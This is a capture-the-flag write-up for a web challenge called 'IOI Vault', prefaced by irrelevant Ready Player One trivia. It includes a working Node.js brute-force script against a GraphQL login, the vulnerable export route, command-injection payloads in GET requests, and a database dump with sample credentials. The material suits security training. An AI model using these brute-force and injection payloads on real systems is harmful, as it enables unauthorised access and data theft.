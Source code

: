 ## IOI Vault
```
Aech discovered that Nolan Sorrento uses an I0I password manager to store his Oasis rig password. Can you help Parzival and Aech extract Sorrento's Oasis rig password?
Nolan Sorrento in Ready Player One
Does Nolan Sorrento own IOI?
Sorrento is the head of Innovative Online Industries, also known as IOI, the world's largest ISP.
Wade’s wireless VR headset. “Ready Player One” doesn’t waste a whole lot of time explaining how gadgets used in the film work, but Wade’s headset, which is also used by most other characters, essentially looks like a pair of fancy ski goggles. Light, wireless, and apparently working without any external hardware, it is capable of transporting you to the virtual world of the Oasis where ever you are
Aech (pronounced as the letter 'H') is a main character in Ernest Cline's Ready Player One. Aech has been Wade's best friend for years
Wade Owen Watts, under the virtual name Parzival, is the main protagonist of Erenest Cline's novel and Steven Spielberg's movie Ready Player One. 
Also in Fallout 3 The Vault 101 entrance password is "Amata". 
```
But absolutely none of that is relevant to the challenge, so, feel free to not read it :D

Looking at the source all user passwords were generated with a funny bash oneliner:
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}
```

Of course $RANDOM doesn't have enough entropy to be safe to use as a password.
```bash
while true;do echo $RANDOM;done
```

So we just have to bruteforce IDOR that, I did it in node for learning sake, but you could do that with the language of your choice

```js
const fetch = require('node-fetch');
const crypto = require('crypto');


async function login() {

  for (let i = 0; i < 32767; i++) {

    const user = 'admin';
    //const hash = 'c8443b6213aa517f2d701ebf845fdae4';
    //const pass = '29073';
    const pass = i.toString();
    const hash = crypto.createHash('md5').update(pass).digest('hex');

    const query = `
      mutation($username: String!, $password: String!) {
        LoginUser(username: $username, password: $password) {
          message,
          token
        }
      }
    `;

    const variables = {
      'username': user,
      'password': hash
    };

    const endpoint = "http://64.227.37.161:32741/graphql";

    const response = await fetch(endpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ query, variables })
    });

    const res = await response.json();
    const jsonString = JSON.stringify(res);
    console.log(pass + ' - ' + hash);

    if (jsonString.includes('User logged in successfully!')) {
      console.log(res);
      process.exit(0);
    }
  }
}

login();
```

```bash
node brute.js
...
SNIP
...
1551 - 4e6cd95227cb0c280e99a195be5f6615
1552 - 351b33587c5fdd93bd42ef7ac9995a28
1553 - 18ead4c77c3f40dabf9735432ac9d97a
1554 - 98986c005e5def2da341b4e0627d4712
{
  data: {
    LoginUser: {
      message: 'User logged in successfully!',
      token: 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY4MjQ4ODU2OH0.XJ4DiaIw2GzNnR3DWssvT7y06ziq0aWuKi-keJcPUaw'
    }
  }
}
```

So now we can login as admin with that token, and admin has access to an additionnal feature in the webapp, to dump the db, how convenient
```js
router.get('/admin/export', AuthMiddleware, async (req, res, next) => {
    if (!req.user.is_admin) return res.redirect('/dashboard');

    const { filename } = req.query;

    if (filename) {
        try {
            execSync(`mysqldump -h 127.0.0.1 -uioi_vault -pioi_vault --add-drop-table ioi_vault > /opt/exports/${filename}.sql`);

            if (existsSync(`/opt/exports/${filename}.sql`)) {
                return res.download(`/opt/exports/${filename}.sql`, `${filename}.sql`);
            }
        }
        catch (e) {
            return res.status(500).send(response('Something went wrong!'));
        }
    }
```

And it's pretty obviously vulnerable to command injection, so
```
GET /admin/export?filename=ioivault_dump;sleep 5; HTTP/1.1
```

pop pop
```
GET /admin/export?filename=ioivault_dump;mysql -h 127.0.0.1 -uioi_vault -pioi_vault -Dioi_vault -e "update saved_passwords set note='$(/readflag)' where owner='admin';"; HTTP/1.1
```

And we just have to use our database dumping as a service (DDaaS) for the exfiltration
```
GET /admin/export?filename=ioivault_dump HTTP/1.1
```

And it's looting time
```sql
--
-- Dumping data for table `saved_passwords`
--

LOCK TABLES `saved_passwords` WRITE;
/*!40000 ALTER TABLE `saved_passwords` DISABLE KEYS */;
INSERT INTO `saved_passwords` VALUES (1,'admin','Web','ioivault.htb','admin','admin123','HTB{***********************}'),(2,'louisbarnett','Web','spotify.com','louisbarnett','YMgC41@)pT+BV','student sub'),(3,'louisbarnett','Email','dmail.com','louisbarnett@dmail.com','L-~I6pOy42MYY#y','private mail'),(4,'ninaviola','Web','office365.com','ninaviola1','OfficeSpace##1','company email'),(5,'alvinfisher','App','Netflix','alvinfisher1979','efQKL2pJAWDM46L7','Family Netflix'),(6,'alvinfisher','Web','twitter.com','alvinfisher1979','7wYz9pbbaH3S64LG','old twitter account');
/*!40000 ALTER TABLE `saved_passwords` ENABLE KEYS */;
UNLOCK TABLES;
```
